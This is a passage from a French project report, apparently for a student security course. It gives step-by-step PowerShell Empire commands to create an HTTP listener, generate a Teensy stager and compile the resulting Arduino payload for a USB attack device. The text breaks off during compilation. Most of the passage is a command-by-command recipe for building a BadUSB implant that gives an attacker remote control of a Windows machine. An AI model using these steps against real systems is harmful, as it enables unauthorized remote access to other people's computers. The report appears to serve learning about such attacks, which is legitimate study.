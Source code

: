 \begin{lstlisting}{language=bash}
> powershell-empire
\end{lstlisting}

Ensuite il faut choisir quel listener utiliser, nous allons utiliser le listener “http”, il faut donc taper:

\begin{lstlisting}{language=bash}
> uselistener http
\end{lstlisting}

Ensuite, on peut configurer ce module comme un module Metasploit, ici on va juste changer le port d’écoute en tapant:

\begin{lstlisting}{language=bash}
> set Port 9000
\end{lstlisting}

Puis pour exécuter le listener on tape:

\begin{lstlisting}{language=bash}
> execute
\end{lstlisting}

Après il faut choisir le mode de transmission, ici on va choisir la transmission par un Teensy, il faut donc taper:

\begin{lstlisting}{language=bash}
> usestager windows/teensy
\end{lstlisting}

Puis associer le stagers au listener en tapant:

\begin{lstlisting}{language=bash}
> set Listener http
\end{lstlisting}

Et enfin, générer le payload en tapant:

\begin{lstlisting}{language=bash}
> generate
\end{lstlisting}

Empire devrait afficher que le fichier de script Arduino a bien été créer:

\includegraphics[scale=0.8]{images/SEN_Projet_Image06.png}

Il ne nous reste plus qu’à le compiler et le transférez sur le Teensy, pour cela il faut 
revenir sur l’IDE Arduino et ouvrir le fichier précédemment créé, puis cliquez sur le bouton en haut à gauche de compilation/vérification:

